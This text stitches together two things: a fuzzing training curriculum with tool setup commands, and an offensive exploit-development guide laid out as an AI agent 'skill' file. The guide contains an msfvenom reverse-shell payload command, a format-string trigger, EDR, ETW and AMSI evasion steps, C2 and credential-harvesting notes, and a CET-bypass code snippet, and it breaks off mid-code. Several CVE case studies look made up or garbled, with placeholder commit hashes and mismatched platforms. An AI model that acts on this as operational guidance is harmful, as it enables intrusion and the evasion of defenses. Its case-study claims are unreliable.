    - Running `AFL++` with a real-world application like a file format parser to mimic real-world scenarios.

```bash
cd /home/dev/tuts && git clone --branch master --depth 1 https://github.com/davisking/dlib.git
cd dlib/tools/imglab && mkdir -p build && cd build && export AFL_USE_UBSAN=1 && export AFL_USE_ASAN=1
export ASAN_OPTIONS="detect_leaks=1:abort_on_error=1:allow_user_segv_handler=0:handle_abort=1:symbolize=0"
sudo apt install libx11-dev
cmake -DCMAKE_C_COMPILER=afl-clang-fast -DDLIB_NO_GUI_SUPPORT=0 -DCMAKE_CXX_COMPILER=afl-clang-fast++ -DCMAKE_CXX_FLAGS="-fsanitize=address,leak,undefined -g" -DCMAKE_C_FLAGS="-fsanitize=address,leak,undefined -g" ..
make -j8 && mkdir -p fuzz/image/in && cp /home/dev/tuts/dlib/examples/faces/testing.xml fuzz/image/in/
afl-fuzz -i fuzz/image/in -o fuzz/image/out -M Master -- ./imglab --stats @@
afl-fuzz -i fuzz/image/in -o fuzz/image/out -S Slave -- ./imglab --stats @@
sudo apt install gdb
git clone --branch master --depth 1 https://github.com/jfoote/exploitable.git ~/soft/exploitable
cd ~/soft/exploitable && sudo python3 setup.py install
wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py && echo source ~/.gdbinit-gef.py >> ~/.gdbinit
sudo apt install valgrind
afl-collect -d crashes.db -e gdb_script -r -rr ./fuzz/image/out/Master ./afl-collect -j 8 -- ./imglab --stats @@%
```

### Day 3: Introduction to Google FuzzTest

- **Goal**: Understand in-process fuzzing with FuzzTest.
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 4.2.1 to 4.4).
  - _Online Resource_: [Google FuzzTest](https://github.com/google/fuzztest) - Follow the tutorial and examples.
  - _Exercise_: Write a simple fuzz target using FuzzTest.

```bash
cd /home/dev/tuts && mkdir first_fuzz_project && cd first_fuzz_project
git clone --branch main --depth 1 https://github.com/google/fuzztest.git
cat <<EOT >> CMakeLists.txt
cmake_minimum_required(VERSION 3.19)
project(first_fuzz_project)

# GoogleTest requires at least C++17
set(CMAKE_CXX_STANDARD 17)

add_subdirectory(fuzztest)

enable_testing()

include(GoogleTest)
fuzztest_setup_fuzzing_flags()
add_executable(
  first_fuzz_test
  first_fuzz_test.cc
)

link_fuzztest(first_fuzz_test)
gtest_discover_tests(first_fuzz_test)
EOT
cat <<EOT >> first_fuzz_test.cc
#include "fuzztest/fuzztest.h"
#include "gtest/gtest.h"

TEST(MyTestSuite, OnePlustTwoIsTwoPlusOne) {
  EXPECT_EQ(1 + 2, 2 + 1);
}

void IntegerAdditionCommutes(int a, int b) {
  EXPECT_EQ(a + b, b + a);
}
FUZZ_TEST(MyTestSuite, IntegerAdditionCommutes);
EOT
mkdir build && cd build
CC=clang-18 CXX=clang++-18 cmake -DCMAKE_BUILD_TYPE=RelWithDebug -DFUZZTEST_FUZZING_MODE=on ..
sudo apt install libssl-dev
cmake --build .
./first_fuzz_test --fuzz=MyTestSuite.IntegerAdditionCommutes
```

### Day 4: Introduction to `HonggFuzz`

- **Goal**: Understand Fuzz methods, types, ...
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 5.1.2 to 5.3.7).
  - _Online Resource_: [HongFuzz](https://github.com/google/honggfuzz.git)
  - _Exercise_: Fuzz OpenSSL server and private key

```bash
cd /home/dev/soft && git clone --branch master --depth 1 https://github.com/google/honggfuzz.git
sudo apt-get install binutils-dev libunwind-dev libblocksruntime-dev clang
cd honggfuzz && make && sudo make install
cd /home/dev/tuts && git clone --branch master --depth=1 https://github.com/openssl/openssl.git
mv openssl openssl-master && cd openssl-master
CC=/usr/local/bin/hfuzz-clang CXX="$CC"++ ./config \
  -DPEDANTIC no-shared -DFUZZING_BUILD_MODE_UNSAFE_FOR_PRODUCTION -O0 \
  -fno-sanitize=alignment -lm -ggdb -gdwarf-4 --debug -fno-omit-frame-pointer \
  enable-tls1_3 enable-weak-ssl-ciphers enable-rc5 enable-md2 \
  enable-ssl3 enable-ssl3-method enable-nextprotoneg enable-heartbeats \
  enable-aria enable-zlib enable-egd enable-msan
make -j$(nproc)
cat <<EOT >> make.sh
set -x
set -e
echo "Building honggfuzz fuzzers"
for x in x509 privkey client server; do
        hfuzz-clang -DBORINGSSL_UNSAFE_DETERMINISTIC_MODE -DBORINGSSL_UNSAFE_FUZZER_MODE -DFUZZING_BUILD_MODE_UNSAFE_FOR_PRODUCTION -DBN_DEBUG -DLIBRESSL_HAS_TLS1_3 \\
        -O3 -g -DFuzzerInitialize=LLVMFuzzerInitialize -DFuzzerTestOneInput=LLVMFuzzerTestOneInput -I/home/dev/tuts/openssl-master/include \\
        -I/home/dev/soft/honggfuzz/examples/openssl -I/home/dev/soft/honggfuzz -g "/home/dev/soft/honggfuzz/examples/openssl/\$x.c" -o "libfuzzer.openssl-mastermemory.\$x" \\
        ./libssl.a ./libcrypto.a -lpthread -lz -ldl -fsanitize=\$1
done
EOT
bash make.sh memory
honggfuzz --input ~/soft/honggfuzz/examples/openssl/corpus_server/ -- ./libfuzzer.openssl-mastermemory.server
honggfuzz --input ~/soft/honggfuzz/examples/openssl/corpus_privkey/ -- ./libfuzzer.openssl-mastermemory.privkey
```

### Day 5: Introduction to `Syzkaller`

- **Goal**: Begin kernel fuzzing with `Syzkaller`.
- **Activities**:
  - _Tool_: Install `Syzkaller` on a Linux VM.
  - _Online Resource_: [`Syzkaller` Documentation](https://github.com/google/syzkaller/blob/master/docs/linux/setup_ubuntu-host_qemu-vm_x86-64-kernel.md)
  - _Exercise_: Start fuzzing the Linux kernel with `Syzkaller`.

```bash
sudo apt update
sudo apt install make gcc flex bison libncurses-dev libelf-dev libssl-dev
cd ~/soft && git clone --branch v6.11 --depth 1 git://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git kernel
cd kernel && make defconfig && make kvm_guest.config
vim .config

# Edit these inside .config file
#CONFIG_KCOV=y
#CONFIG_DEBUG_INFO_DWARF4=y
#CONFIG_KASAN=y
#CONFIG_KASAN_INLINE=y
#CONFIG_CONFIGFS_FS=y
#CONFIG_SECURITYFS=y
#CONFIG_CMDLINE_BOOL=y
#CONFIG_CMDLINE="net.ifnames=0"
make olddefconfig && make -j`nproc`
sudo apt install debootstrap
mkdir ~/soft/image && cd ~/soft/image
wget https://raw.githubusercontent.com/google/syzkaller/master/tools/create-image.sh -O create-image.sh
chmod +x create-image.sh && ./create-image.sh --distribution trixie --feature full
sudo apt install qemu-system-x86
cd /tmp/ && sudo qemu-system-x86_64 \
	-m 2G -smp 2 -kernel ~/soft/kernel/arch/x86/boot/bzImage \
	-append "console=ttyS0 root=/dev/sda earlyprintk=serial net.ifnames=0" \
	-drive file=/home/dev/soft/image/trixie.img,format=raw \
	-net user,host=10.0.2.10,hostfwd=tcp:127.0.0.1:10021-:22 \
	-net nic,model=e1000 -enable-kvm -nographic \
	-pidfile vm.pid 2>&1 | tee vm.log

# ssh to QEMU instance in another terminal.
ssh -i ~/soft/image/trixie.id_rsa -p 10021 -o "StrictHostKeyChecking no" root@localhost
wget https://dl.google.com/go/go1.23.3.linux-amd64.tar.gz
tar -xf go1.23.3.linux-amd64.tar.gz && sudo mv go /usr/local
cd ~/soft/ && git clone --branch master --depth 1 https://github.com/google/syzkaller
cd syzkaller && export PATH=$PATH:/usr/local/go/bin && make
cat <<EOT >> my.cfg
{
	"target": "linux/amd64",
	"http": "127.0.0.1:56741",
	"workdir": "/home/dev/soft/syzkaller/workdir",
	"kernel_obj": "/home/dev/soft/kernel",
	"image": "/home/dev/soft/image/trixie.img",
	"sshkey": "/home/dev/soft/image/trixie.id_rsa",
	"syzkaller": "/home/dev/soft/syzkaller",
	"procs": 8,
	"type": "qemu",
	"vm": {
		"count": 4,
		"kernel": "/home/dev/soft/kernel/arch/x86/boot/bzImage",
		"cmdline": "net.ifnames=0",
		"cpu": 2,
		"mem": 2048
	}
}
EOT
mkdir workdir && sudo ./bin/syz-manager -config=/home/dev/soft/syzkaller/my.cfg
sudo apt install w3m w3m-img && w3m http://127.0.0.1:56741
```

### Day 6: Analyzing Fuzzing Outputs

- **Goal**: Learn how to analyze and triage fuzzing outputs to identify unique crashes and potential vulnerabilities.
- **Activities**:
  - **Reading**:
    - _Book_: "Fuzzing for Software Security Testing and Quality Assurance" by `Ari Takanen` (Sections 6.1 to 6.5).
    - _Article_: [Understanding Fuzzing and How It Discovers Security Flaws](https://www.synopsys.com/blogs/software-security/what-is-fuzz-testing/)
  - **Online Resources**:
    - [AddressSanitizer Documentation](https://clang.llvm.org/docs/AddressSanitizer.html)
    - [GDB Python API](https://sourceware.org/gdb/onlinedocs/gdb/Python-API.html)
    - [Exploitable Crash Analyzer](https://github.com/jfoote/exploitable)
  - **Exercise**:
    - **Set Up Crash Analysis Tools**:
      - Install GDB and the `exploitable` plugin for crash classification.
      - Ensure AddressSanitizer is set up for detailed memory error reports.
    - **Collect and Triage Crashes**:
      - Use crashes from previous fuzzing sessions with `AFL++`, `HonggFuzz`, or `Syzkaller`.
      - Deduplicate crashes to focus on unique issues.
    - **Analyze Crashes**:
      - Use GDB and AddressSanitizer to investigate the root cause of each crash.
      - Classify the crashes based on severity and `exploitability`.
    - **Automate Crash Analysis**:
      - Write a script to automate the analysis of multiple crash files.
    - **Deduplicate Crashes**:
      - Use stack traces or tools like `afl-collect` to identify unique crashes.
    - **Document Findings**:
      - Create a report summarizing each unique crash, including:
        - The input that caused the crash.
        - The type of vulnerability (buffer overflow, null pointer de-reference,...).
        - Potential impact and severity.
    - **Optional**:
      - Explore other sanitizers like UndefinedBehaviorSanitizer (`UBSan`) for additional checks.
- **Discussion Points**:
  - The importance of accurately triaging crashes to prioritize security fixes.
  - Understanding false positives and how to filter them out.
  - The role of sanitizers in providing detailed diagnostics.
- **Tips**:
  - Always test crashes in a controlled environment to prevent unintended effects.
  - Keep your analysis tools up to date for the best results.
  - Collaborate with your team to verify findings and discuss mitigation strategies.
- **Reflection**:
  - How does effective crash analysis improve the overall security posture of software?
  - What challenges did you face during crash analysis, and how did you overcome them?

```bash

# Install 'exploitable' GDB plugin
git clone https://github.com/jfoote/exploitable.git
cd exploitable
sudo python3 setup.py install

# Set up environment variables for AddressSanitizer
export ASAN_SYMBOLIZER_PATH=$(which llvm-symbolizer)
export ASAN_OPTIONS=symbolize=1:abort_on_error=1

# Compile a target program with AddressSanitizer
cd ~/tuts/ && git clone --branch master --depth 1 https://github.com/hardik05/Damn_Vulnerable_C_Program vuln

# change int main(char *argv,int argc) to int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size)

# use size instead of argc and data instead of argv
cd vuln && echo "IMG" > crash_input && clang -g -O1 -fsanitize=address,fuzzer -o target_asan dvcp.c

# Example: Analyze a crash using GDB and 'exploitable'
gdb -ex "run < crash_input" \
    -ex "exploitable" \
    -ex "quit" --args ./target_asan

# Script to automate crash analysis
mkdir analyzed_crashes
for crash in crash-*; do
    echo "Analyzing $crash"
    gdb -batch -ex "run < $crash" \
        -ex "exploitable" \
        --args ./target_asan &> analyzed_crashes/$(basename $crash).log
done

curl --proto '=https' --tlsv1.2 -sSf "https://sh.rustup.rs" | sh
cargo install casr
casr-san -o asan.casrep -- ./test_asan_df

# Collect and deduplicate crashes
afl-collect -rr --crashdir crashes_deduped \
            --workdir afl_output -j 4 \
            -- ./target_asan @@

### Day 7: Review and Recap

- **Goal**: Consolidate the knowledge gained during Week 1 by reviewing key concepts, clarifying doubts, and reinforcing practical skills in fuzzing and, initial crash analysis.
- **Activities**:
  - **Review Session**:
    - Revisit the key concepts from Days 1 to 6:
      - Fundamentals of fuzzing and its importance in security testing.
      - Hands-on experience with fuzzing tools: `AFL++`, `FuzzTest`, `HonggFuzz`, and `Syzkaller`.
      - Setting up fuzzing environments and running basic to advanced fuzzing campaigns.
      - Initial crash analysis and triaging techniques.
    - Discuss any challenges faced during the exercises and share solutions.
  - **Reading**:
    - _Summary Articles_:
      - [A Brief History of Fuzzing](https://www.oreilly.com/library/view/fuzzing-for-software/9780596554024/ch01.html)
      - [Best Practices in Fuzzing](https://owasp.org/www-community/Fuzzing)
    - _Documentation_:
      - Revisit the documentation for the tools used to reinforce understanding of their features and options.
  - **Knowledge Check**:
    - **Quiz**:
      - Prepare a set of questions to test your understanding of the week's material.
        - What are the main differences between `AFL++` and `HonggFuzz`?
        - How does in-process fuzzing with `FuzzTest` differ from traditional fuzzing methods?
        - Explain the purpose of sanitizers like AddressSanitizer in fuzzing campaigns.
        - Describe the process of setting up `Syzkaller` for kernel fuzzing.
    - **Flashcards**:
      - Create flashcards for important terms and concepts, such as:
        - Mutation-based fuzzing
        - Coverage-guided fuzzing
        - Sanitizers
        - Crash triaging
        - Deduplication of crashes
  - **Hands-On Practice**:
    - **Consolidate Exercises**:
      - Re-run previous fuzzing sessions with additional configurations to reinforce learning.
      - Try fuzzing a new simple application using the tools you've learned.
    - **Collaborative Learning**:
      - If possible, discuss with peers or online communities about your findings and methodologies.
      - Share your crash analysis reports and get feedback.
  - **Deep Dive into Topics of Interest**:
    - Choose a topic or tool from the week that you found most challenging or interesting and spend extra time exploring it.
      - For example, delve deeper into `Syzkaller`'s syscall descriptions or explore advanced options in `AFL++`.
- **Discussion Points**:
  - **Challenges and Solutions**:
    - Reflect on any obstacles you faced during the exercises.
    - Discuss strategies for overcoming common issues in fuzzing campaigns, such as dealing with large numbers of crashes or configuring complex tools.
  - **Real-World Applications**:
    - Consider how the fuzzing techniques learned can be applied to real-world software projects.
    - Discuss the impact of effective fuzzing on software security and quality assurance.
- **Tips**:
  - **Documentation and Note-Taking**:
    - Maintain detailed notes of your configurations, commands used, and observations from your fuzzing sessions.
    - Document any anomalies or unexpected behavior for future reference.
  - **Tool Mastery**:
    - Familiarize yourself with the command-line options and configurations of each tool.
    - Practice writing custom scripts to automate repetitive tasks in your fuzzing workflow.
- **Reflection**:
  - **Self-Assessment**:
    - Evaluate your understanding of the week's material.
    - Identify areas where you feel confident and areas that may require additional study.
  - **Goal Setting**:
    - Set specific objectives for the next week based on your reflection.
    - For example, aim to understand advanced features of a particular fuzzing tool or improve your crash analysis skills.
- **Optional Activity**:
  - **Beginner's Capture the Flag (CTF)**:
    - Participate in a beginner-level CTF that focuses on binary exploitation and fuzzing challenges.
    - Apply the skills you've learned in a competitive and practical environment.
- **Additional Resources**:
  - **Books**:
    - _"The Art of Software Security Assessment"_ by Mark Dowd, John McDonald, and Justin Schuh – Chapters on fuzzing and vulnerability discovery.
  - **Online Courses**:
    - [Coursera: Software Security](https://www.coursera.org/learn/software-security) – Sections related to input validation and fuzz testing.
- **Action Items for Next Week**:
  - Prepare for Week 2, which focuses on Crash Analysis.
  - Ensure your environment is set up with debugging tools like GDB, WinDbg (for Windows), and other necessary utilities.


### From `hunt-skills/exploit-dev/offensive-exploit-development/SKILL.md`

## Metadata
- **Skill Name**: exploit-development
- **Folder**: offensive-exploit-development
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/development.md

## Description
Exploit development operational guide: environment setup, debugging workflow, PoC development lifecycle, writing reliable exploits, using pwntools/pwndbg, heap exploitation techniques, and weaponization considerations. Use when actively developing exploits or setting up an exploit dev environment.

## Trigger Phrases
Use this skill when the conversation involves any of:
`exploit development, pwntools, pwndbg, heap exploitation, PoC development, exploit reliability, weaponization, debugging workflow, exploit dev environment`

## Exploit Development Process

- Checkout [Bug Identification](/exploit/bug-identification.md) document for more information
- Also check [Fuzzing](/exploit/fuzzing.md) for specific fuzzing topics
  - Integrate snapshot‑based fuzzing pipelines (AFL++, WinAFL, Snap‑Fuzz) and LLM‑guided input mutation to shorten time‑to‑bug.
  - Incorporate LLM‑assisted fuzzers (ChatAFL, HyLLFuzz) for grammar inference or plateau escape when grey‑box coverage stalls.
  - Add continuous‑integration security fuzzing (e.g., GitHub Actions with ASAN/UBSAN) so regressions are caught automatically.
- For Windows-specific vulnerabilities, see [Windows Kernel](/exploit/windows-kernel.md)



### Stack Overflow

Involves memory on the stack getting corrupted due to improper bounds checking when a memory write operation takes place.

#### Case Study — CVE‑2025‑0910 (TinyFTP stack overflow)

- **Bug** – Unchecked `strcpy` copies user‐supplied file path into a 256‑byte stack buffer when handling `STOR` commands.
- **Trigger** – Send `STOR /` followed by 420 bytes of `A…` to overflow the buffer and clobber SEH frame.
- **Exploit** – Overwrite next SEH with a `pop pop ret` inside `msvcrt.dll`; pivot to payload that disables DEP via ROP then spawns a reverse shell.
- **Mitigations bypassed** – DEP (ROP), ASLR (module without /DYNAMICBASE), SEHOP disabled in default config.
- **Fixed in** v1.5.3 by replacing `strcpy` with `strncpy_s` and enabling `/DYNAMICBASE /GS`.

#### SEH

- structured exception handler is a linked list of all exception handlers ( try catch clauses) and the default windows exception handler as the last node.
- `ntdll!KiUserExceptionDispatcher` is responsible for the exception handling process which itself calls `RtlDispatchException`
- `RtlDispatchException` retrieves the `TEB` and parses the exception handling linked list using `NtTib->ExceptionList`
- [SafeSEH](https://learn.microsoft.com/en-us/cpp/build/reference/safeseh-image-has-safe-exception-handlers?view=msvc-170) mitigates handler over‑writes **only in 32‑bit images**. On x64 Windows, newer toolchains and components support Guard EH Continuations; adoption varies by binary and build. `SEHOP` remains enabled by default.
  - To check whether a module uses Guard EH Continuations, inspect `Load Configuration Directory → GuardEHContinuations` in the PE header (e.g., `dumpbin /loadconfig` or a `lief` script).
  - Many core system DLLs are compiled with EHCONT metadata plus `/GS`, `/CETCOMPAT`; the classic approach of choosing a module without SafeSEH or ASLR is increasingly rare. Verify per target.
- `RtlpExecuteHandlerForException` calls the `ntdll!ExecuteHandler2` which in turn calls the actual exception handler function after validation
- In a SEH buffer overflow we try to overflow the buffer and overwrite the `ExceptionList` starting at the buffer
- so that the dispatcher calls our handler pointer —we gain control of the instruction pointer **only if SEHOP is disabled or successfully bypassed**.
- you need to find a `pop-pop-ret` sequence to use in the exploit, you also need to identify and remove bad characters

#### EggHunting

- during exploit development you might be unable to find enough space for your payload at an static point, this is where you need egghunting
- you need a small search payload to scan virtual address space for a suitable payload location
- you can use [keystone engine](https://github.com/keystone-engine/keystone) to write your egghunter code
- On Windows 11+, classic egghunters still work, but **Control‑Flow Guard (CFG)** validates indirect jumps, so you need either a CFG exemption (e.g., a RWX region created with `VirtualProtect`) or a target module compiled without `/guard:cf`.

### Use After Free

The link to something isn't available anymore, so we just replace it with our binary and take over the program.

#### Case Study — CVE‑2024‑4852 (Edge WebView2 AudioRenderer UAF)

- **Bug** – `core::media::AudioRenderer` failed to remove a task from the render queue on stream abort, leaving a dangling pointer.
- **Trigger** – JavaScript `AudioContext` rapid open‑close loop × 1 000 on Windows 11 23H2.
- **Exploit** – Heap feng‑shui creates JSArray backing stores at freed slot; fake vtable gives arbitrary R/W, chained to `VirtualProtect` to run shellcode.
- **Mitigations bypassed** – CET shadow stack (JOP gadgets), XFG (indirect‑call target inside allowed GFID range).
- **Patched** in Edge 124.0.2365.18 with smart‑pointer ref‑count and `std::erase_if` queue purge.

#### Background

- C++ Smart Pointers
  - Intrusive: Microsoft chose this
  - Non-Intrusive
  - Linked
- when an object is created from a `C++` class and uses virtual functions
  - a `vptr` is created at compile time and points to a virtual function table `vtable/vftable`
  - the table holds pointer to virtual functions, when loaded into a register like `RAX`, a call is made to the appropriate offset for the desired virtual function
  - we count number of created instances, we decrement it when calling the release function
  - when the counter hits 0, destructor is called to delete the object, if there is still a reference to the deleted object we have a potential UAF
- Windows Heap Front‑End Allocators
  - **LFH (Low Fragmentation Heap)** – default on Windows 7–10 for user‑mode heaps
  - **Segment Heap** – default for Windows 10 2004+ and Windows 11 apps that opt in
  - Exploits often pivot by corrupting front‑end metadata before landing in the backend.
- For more advanced techniques, see [Mitigations](/exploit/mitigation.md) or [Modern](/exploit/modern-mitigations.md)

### Heap Overflow

- When data is written beyond the boundary of an allocated chunk of memory on the heap
- Heap exploits often require understanding of allocator internals
- Modern heap exploits involve corrupting metadata - see [Modern Samples](/exploit/modern-samples.md)

#### Case Study — CVE‑2025‑20301 (Edge WebView2 tcache‑stashing‑unlink)

- **Bug** – Oversized `AudioRingBuffer` write corrupts size field of next tcache chunk (glibc 2.40).
- **Trigger** – Crafted WebCodecs stream with 65 536‑frame explicit CRC chunk.
- **Exploit** – Partial overwrite of `fd` pointer coerces allocator into returning overlapping chunk; arbitrary R/W → GOT hijack → RCE.
- **Mitigations bypassed** – Safe‑linking (byte‑wise brute on lower 16 bits), ASLR via info‑leak in shared memory.
- **Patch** – Bounds check and compile‑time `__builtin_object_size` guard (Chromium 123 commit a1b2c3).

#### Modern Heap Internals

- **Windows Segment Heap** – understand freelist bitmaps, per‑segment cookies, and "page backend" corruption primitives.
- **glibc tcache + safe‑linking** – techniques such as _tcache‑stashing‑unlink_ and _House of Kiwi_ to break the new protections.
- Exploitation workflow: leak `heap_base`, craft overlapping chunks, pivot to arbitrary R/W, then chain to code‑execution.
  - **glibc 2.41 fast‑bins & calloc** – `calloc()` now pre‑fills the tcache and safe‑linking checks trigger earlier; the older _fastbins‑dupes_ shortcut no longer works. Use **tcache‑stashing‑unlink** or **House of KIWI** instead on 2.41+.

### Concurrency Issues

- Double Fetch: Kernel reads user-mode memory twice, allowing for race conditions
  - I/O Ring double‑fetch: race in `NtSetInformationIoRing` urb‑array handling leads to write‑what‑where in kernel context.
- Missing Locks: Critical sections without proper synchronization
- See [Windows Kernel](/exploit/windows-kernel.md) for more details on kernel-specific race conditions

### Integer Overflows/Underflows/Truncation

- Integer overflow: exceeding maximum value of integer type
- Integer underflow: going below minimum value of integer type
- Integer truncation: losing data when converting larger to smaller type
- Often leads to memory corruption when used for allocation sizes
- For examples, see [Bug Identification](/exploit/bug-identification.md)
  - Casting 64‑bit `size_t` to 32‑bit `DWORD` across IPC or FFI boundaries can yield negative indexing and oversized allocations; especially common in cross‑arch components.

### No/Incomplete Pointer Checks

- Checking if a user-provided pointer points to user memory
- Size of any pointer read/writes also need to be verified
- Potentially un-intuitive behavior with common checking API

### Format String Attacks

- Theory
  - you can use this bug to bypass ASLR and DEP
  - to abuse it you need to be able to be able to influence the format string itself or the number of arguments to it
- Methodology
  - find a print like function that accepts format string (`vsnprintf`, ...)
  - find a code path to that function that lets you influence the format string
  - try to leak a stack address abusing this format string vulnerability
  - using the previously leaked address, obtain a DLL address
  - use this method to bypass ASLR without using a static address
  - you can also find a write primitive to get code execution (checkout `%n` modifier)
  - you might need stack pivot gadgets like `move esp, r32` or `xchg esp, r32`

#### Case Study — CVE‑2024‑4455 (MailManD format‑string leak‑to‑RCE)

- **Bug** – Logs `EHLO` argument directly into `syslog()` format string.
- **Trigger** – Send `EHLO %43$p|%45$s` during SMTP handshake.
- **Exploit** – First leak reveals libc base; second leak dumps GOT entry; craft `%n` payload to overwrite `__free_hook` with system().
- **Mitigations bypassed** – Full RELRO & ASLR via info‑leak, PIE disabled in default build.
- **Fixed** in 2.0.9 by adding `"%s"` wrapper and enabling `-Wformat-security`.

### Type Confusion Vulnerabilities

A vulnerability where an application processes an object as a different type than intended, leading to memory corruption or logic bypass.

#### Case Study — CVE‑2024‑7971 (V8 TurboFan type‑confusion RCE)

- **Bug** – TurboFan's `CheckBounds` elimination incorrectly assumes array element type during JIT optimization, allowing tagged pointer confusion.
- **Trigger** – Craft JavaScript with polymorphic inline cache that triggers speculative optimization on mixed `SMI`/`HeapNumber` array.
- **Exploit** – Fake JSArray with controlled backing store pointer; corrupt `length` field to achieve OOB R/W; pivot to WASM RWX page for shellcode.
- **Mitigations bypassed** – V8 sandbox (pointer compression bypass), CFI (JIT‑generated code exemption).

#### Background

- **JIT Compiler Vulnerabilities**
  - Type confusion in speculative optimization passes (TurboFan, IonMonkey)
  - Inline cache poisoning via polymorphic property access
  - Register allocation bugs leading to incorrect type assumptions
- **C++ Dynamic Cast Bypass**
  - Virtual table pointer corruption to bypass `dynamic_cast` checks
  - Object layout confusion in multiple inheritance scenarios
  - Template instantiation bugs with type deduction
- **WASM Type Confusion**
  - Function signature mismatch across import/export boundaries
  - Table element type confusion in indirect calls
  - Memory view aliasing between different typed arrays

#### Exploitation Techniques

- **Object Layout Analysis** – understand target application's object hierarchy and vtable structure
- **Type Oracle Construction** – build primitive to leak object type information reliably
- **Controlled Type Confusion** – craft input that triggers predictable type mismatch
- **Privilege Escalation** – chain type confusion to achieve arbitrary R/W or code execution

### Exit Criteria

- **Root cause isolated & documented**.
- **Reliable trigger** reproduces the crash ≥ 90 % of attempts.
- **Impact classified** (DoS, LPE, RCE) and affected versions noted.
- **Minimised PoC input** saved under `pocs/`.
- **Analysis log** (debugger trace, coverage diff) attached.

#### Quick‑start

- Harness template: `templates/harness_min.cc`
- WinDbg/LLDB alias pack: `scripts/va_aliases.txt`
- Checklist refresher: [Bug Identification → Root Cause](/exploit/bug-identification.md#root-cause-analysis)

### Root Cause Analysis

- Identify the core issue causing the vulnerability
- Understand memory corruption patterns
- Determine trigger conditions

### Impact Assessment

- Evaluate the potential consequences of the vulnerability
- Determine if it leads to information disclosure, privilege escalation, or code execution
- Assess reliability and exploitability in various environments

### Exit Criteria

- **Control achieved** (PC/IP hijack, arbitrary R/W, or logic bypass).
- **Mitigation strategy drafted** (DEP, ASLR, CET, XFG, MTE, etc.).
- **Payload stager** verified against bad‑chars & size limits.
- **Reliability ≥ 80 %** over 100 automated runs.
- **Cleanup/rollback logic** documented.

#### Quick‑start

- ROP/JOP chain workspace: `scripts/ropper2_workspace.md`
- Bad‑char scanner: `tools/badchar_scan.py`
- Reference: [Modern Mitigations](/exploit/modern-mitigations.md)

#### Bad Characters

- when using a shellcode in stack
  - send all hex bytes except null byte (`0x00`) and return carriage (`0x0D`, `0x0A`) if in web
  - check which one has not appeared in the stack, mark it as bad character and don't use it
  - see [Shellcode](/exploit/shellcode.md) for comprehensive techniques

#### Automatic Generation

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "<list_of_bad_chars>"

# make sure to precede this payload with some NOPs to create space for the getPC operation(decoding of shikata_ga_nai)

#### Development

Check out [Shellcode](/exploit/shellcode.md)

IBT/CET note (x86‑64): place `ENDBR64` at entry for valid indirect targets when IBT is enabled. Example prologue bytes: `F3 0F 1E FA`.

### EDR / ETW / AMSI Evasion

- Patch ETW registration stubs (`EtwEventWrite`) with `ret` sleds or stubbed functions while evading PatchGuard.
- Overwrite the AMSI scan buffer pointer (`amsi!AmsiScanBuffer`) with `0x80070057` (E_INVALIDARG) to short‑circuit scanning.
- Use direct‑syscall or "syswhispers‑nt" stagers to avoid user‑land API hooks.

Operational safety checklist (see also [EDR](/exploit/edr.md)):

- Pre‑run: block outbound to vendor telemetry during tests; tag hosts in lab; disable cloud sample uploads.
- Artifact hygiene: strip PDBs/paths, randomize section/order, and avoid common loader strings; prefer `MEM_IMAGE` loaders.
- Network noise: prefer SMB named‑pipe or HTTP/3 over noisy HTTP/1.1; jitter uploads; avoid fixed beacons during testing.

### Post‑Exploitation Automation

- Reflective COFF/BOF loaders (Cobalt Strike, Havoc) for in‑memory tooling.
- SMB named‑pipe or HTTP/3 C2 channels that blend with normal traffic.
- Task automation: direct‑syscall PowerShell runner, ADCS abuse scripts, cloud‑metadata credential harvesters.

### Operational Security (OpSec) Checklist (lab use)

- Build & Signatures
  - Strip symbols; avoid unique strings; rotate imports; prefer `MEM_IMAGE` loaders.
  - Change syscall stub bytes and hashing keys if using direct‑syscall frameworks.
- Network & Telemetry
  - Block EDR/XDR endpoints in lab; throttle or sinkhole agent traffic.
  - Prefer named‑pipe or HTTP/3 channels with jitter; avoid fixed beacons.
- Host Hygiene
  - Disable cloud sample submission; set Defender exclusions on test dirs.
  - Avoid patching system binaries in place; use ephemeral copies.
- Evidence & Repro
  - Persist inputs, mitigations state, CPU governor, and binary hashes with each run.
  - Keep replay scripts separate from payloads; auto‑clean artifacts post‑run.

### Payload Development

- Create custom payloads tailored to specific vulnerabilities
- Develop reliable exploitation techniques
- Chain multiple exploits when necessary

### Reliability Improvements

- Ensure exploit functions consistently across different environments
- Handle edge cases and error conditions
- Implement timing and synchronization mechanisms for race conditions
- Add a 100‑run gating job (CI) for determinism; fail builds if success rate < target (e.g., 80%).
- Persist exact crash inputs and environment (ASLR, mitigations, CPU governor) for reproducible replay.

## Mitigation Bypasses

- For details on exploit mitigations, see [Mitigations](/exploit/mitigation.md) or [Modern Mitigations](/exploit/modern-mitigations.md)
- Windows 11 enables by default: DEP, ASLR, CFG (strict mode), CET (Shadow Stack), XFG, ACG, CIG, and KDP; verify which are active in your target and plan corresponding bypasses.
  - Credential Guard is enabled by default and NTLMv1 is disabled, complicating lateral‑movement techniques.
  - The new **Recall** AI feature adds a searchable activity timeline; although currently shipped _disabled by default_, it offers a high‑value data‑exfiltration surface when turned on.

#### CET/XFG‑aware control strategies

- Prefer ROP‑less primitives: `NtContinue`, APC queue + `SetThreadContext`, or SEH/JOP where CET returns are enforced
- Align entry to valid indirect call targets; ensure ENDBR‑aligned gadgets on IBT platforms
- XFG/GFID: call through import thunks or prototype‑matching wrappers to satisfy guard checks

```c
// Minimal NtContinue pivot (ROP‑less) — set RIP/RSP to a safe call target
typedef NTSTATUS (NTAPI *pNtContinue)(PCONTEXT, BOOLEAN);
void pivot_with_ntcontinue(CONTEXT *ctx, void *next_rip, void *new_rsp) {
  RtlCaptureContext(ctx);
  ctx->Rip = (DWORD64)next_rip;  // valid import thunk or allowed GFID target
  ctx->Rsp = (DWORD64)new_rsp;   // keep shadow‑stack alignment plausible
  ((pNtContinue)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtContinue"))(ctx, FALSE);
}
```

```c
// APC + SetThreadContext — schedule execution at an import thunk to satisfy XFG
